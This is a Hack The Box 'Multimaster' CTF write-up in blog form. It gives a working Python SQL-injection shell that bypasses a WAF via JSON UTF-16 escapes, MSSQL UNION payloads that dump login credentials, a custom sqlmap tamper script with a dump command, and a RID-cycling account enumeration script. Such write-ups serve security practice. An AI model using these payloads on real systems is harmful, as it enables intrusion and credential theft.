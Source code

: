 ```yaml
---
layout: post
title: "Playing with HTB{ Multimaster }"
date: 2020-09-19 21:00:00 +0300
author: snovvcrash
categories: /ctf
tags: [notes, hackthebox, machine, windows, mssql, sqli, sqlmap, sqlmap-tamper, rid-cycling]
published: true
---
```


Automating an SQL injection with a custom sqlmap tamper script to bypass WAF through JSON UTF-16 value representation. Also some RID brute forcing through MS SQL syntax inside.

<!--cut-->

<p align="right">
	<a href="https://www.hackthebox.eu/home/machines/profile/232"><img src="https://img.shields.io/badge/%e2%98%90-Hack%20The%20Box-8ac53e?style=flat-square" alt="htb-badge.svg" /></a>
	<span class="score-insane">7.7/10</span>
</p>

![banner.png](/assets/images/htb/machines/multimaster/banner.png)
{:.center-image}

![info.png](/assets/images/htb/machines/multimaster/info.png)
{:.center-image}

* TOC
{:toc}

# SQLi

## Manual exploitation

JSON format is able to understand various encodings [including UTF-16BE](https://stackoverflow.com/questions/11641983/encoding-json-in-utf-16-or-utf-32) like follows: `\uXXXX`. The payload `' OR 1=1-- -`, for example, would turn into `\u0027\u0020\u004f\u0052\u0020\u0031\u003d\u0031\u002d\u002d\u0020\u002d` after being encoded. I would abuse that fact to bypass WAF (that blocked pretty much everything) and script the injection:

```python
#!/usr/bin/env python3

# Usage: rlwrap ./sqli.py

from binascii import hexlify

import requests

URL = 'http://multimaster.megacorp.local/api/getColleagues'
HEADERS = {'Content-Type': 'application/json;charset=utf-8'}

# SELECT id,name,position,email,src FROM users WHERE name LIKE '?%'

while True:
	payload = input('SQLi> ')
	payload = hexlify(payload.encode()).decode()
	payload = [r'\u00'+payload[i:i+2] for i in range(0, len(payload), 2)]
	payload = ''.join(payload)
	data = r'{"name":"' + payload + r'"}'
	proxies = {'http': 'http://127.0.0.1:8080'}
	resp = requests.post(URL, headers=HEADERS, data=data, proxies=proxies)
	try:
		print(resp.json()[0]['name'])
	except:
		pass
```

Using MS SQL `STUFF()` to emulate MySQL `group_concat()`:

```
SQLi> 1337' union select '1',STUFF((SELECT ',' + name FROM master..sysdatabases FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + name FROM Hub_DB..sysobjects WHERE xtype = 'U' FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + Hub_DB..syscolumns.name + ':' + TYPE_NAME(Hub_DB..syscolumns.xtype) FROM Hub_DB..syscolumns, Hub_DB..sysobjects WHERE Hub_DB..syscolumns.id=Hub_DB..sysobjects.id AND Hub_DB..sysobjects.name='Logins' FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + username + ':' + password FROM Hub_DB..Logins FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
```

![manual-exploit-out.png](/assets/images/htb/machines/multimaster/manual-exploit-out.png)
{:.center-image}

## sqlmap

To teach sqlmap how to exploit this vulnerability bypassing WAF I would write a custom tamper that converts my payload to UTF-16BE string:

```python
#!/usr/bin/env python3

# /usr/share/sqlmap/tamper/utf16be.py

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re
from binascii import hexlify

from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
	pass

def tamper(payload, **kwargs):
	retVal = payload

	if payload:
		retVal = hexlify(retVal.encode()).decode()
		retVal = [r'\u00'+retVal[i:i+2] for i in range(0, len(retVal), 2)]
		retVal = ''.join(retVal)

	return retVal
```

Now I can dump all the databases:

```
root@kali:$ sqlmap --batch -u 'http://multimaster.megacorp.local/api/getColleagues' --method POST -H 'Content-Type: application/json;charset=utf-8' --data '{"name":"*"}' --dbms mssql -p name --delay 2 --technique U --union-cols 5 --union-char 1337 --tamper utf16be --dump --proxy http://127.0.0.1:8080
```

![sqlmap-out-1.png](/assets/images/htb/machines/multimaster/sqlmap-out-1.png)
{:.center-image}

![sqlmap-out-2.png](/assets/images/htb/machines/multimaster/sqlmap-out-2.png)
{:.center-image}

![sqlmap-out-3.png](/assets/images/htb/machines/multimaster/sqlmap-out-3.png)
{:.center-image}


And this is how the requests looks like for real (in Burp Suite):

![request-in-burp.png](/assets/images/htb/machines/multimaster/request-in-burp.png)
{:.center-image}

However, after all this stuff I was pointed out that there was already a ready-made tamper script doing literally the same thing as mine... Just had to google it a little bit more :expressionless:

Details here: [Bypassing WAFs with JSON Unicode Escape Sequences - TrustFoundry](https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/)

# RID Cycling

Unfortunately, these users were not enough to login at least somewhere, so I would write a script to brute force some RIDs from within MS SQL Server:

```python
#!/usr/bin/env python3

import time
from binascii import hexlify
from base64 import b64encode, b64decode

import requests
import sid

URL = 'http://multimaster.megacorp.local/api/getColleagues'
HEADERS = {'Content-Type': 'application/json;charset=utf-8'}


class SQL:

	"""
	SELECT id,name,position,email,src FROM users WHERE name LIKE '?%'
	"""

	def inject(self, payload, mode='sname'):
		query = """1337' UNION SELECT '1',(SELECT CAST(N'' AS XML).value('xs:base64Binary(xs:hexBinary(sql:column("bin")))', 'VARCHAR(MAX)') Base64Encoding FROM (SELECT CAST(%s AS VARBINARY(MAX)) AS bin) AS bin_sql_server_temp),'3','4','5'-- -"""

		if mode == 'sname':  # input sid, output username
			func = "SUSER_SNAME(0x%s)"
			sid_mode = sid.SID_STRING
			payload = sid.sid(payload).binary()
			payload = hexlify(payload).decode()
			payload = payload.upper()
		elif mode == 'sid':  # input username, output sid
			func = "SUSER_SID('%s')"
			sid_mode = sid.SID_BASE64

		query = query % func % payload

		data = r'{"name":"' + self.waf_bypass(query) + r'"}'
		proxies = {'http': 'http://127.0.0.1:8080'}
		resp = requests.post(URL, headers=HEADERS, data=data)

		out = resp.json()[0]['name']

		if mode == 'sname':
			return b64decode(out.encode()).decode()
		elif mode == 'sid':
			return sid.sid(out, sid_mode).str()

	def waf_bypass(self, payload):
		payload = hexlify(payload.encode()).decode()
		payload = [r'\u00'+payload[i:i+2] for i in range(0, len(payload), 2)]
		payload = ''.join(payload)
		return payload


# print(SQL().inject('Administrator', mode='sid'))  # S-1-5-21-3167813660-1240564177-918740779-500

sql = SQL()
for rid in range(1000, 2000):
	s = f'S-1-5-21-3167813660-1240564177-918740779-{rid}'
	o = sql.inject(s)
	if o:
		print(f'{s} => {o}')
	time.sleep(2)
```

The script uses an SQL query to encode output of `SUSER_SNAME()` and `SUSER_SID()` to Base64 and then asks the server about the SIDs it knows. The basic (domain) SID is found by quering `SUSER_SID('Administrator')`. For converting between varbinary SID and common string SID I used a 3rd party module [python-sid](https://github.com/sspreitzer/python-sid).

![request-in-burp.png](/assets/images/htb/machines/multimaster/rid-brute-out.png)
{:.center-image}

# Refs

* [MSSQL Injection Cheat Sheet / pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [Simulating group_concat MySQL function in Microsoft SQL Server 2005? - Stack Overflow](https://stackoverflow.com/questions/451415/simulating-group-concat-mysql-function-in-microsoft-sql-server-2005)
* [The Mystery of the SUSER_NAME() and SUSER_SNAME() functions - sqlity.net](https://sqlity.net/en/1795/mystery-suser_name-suser_sname-functions/)
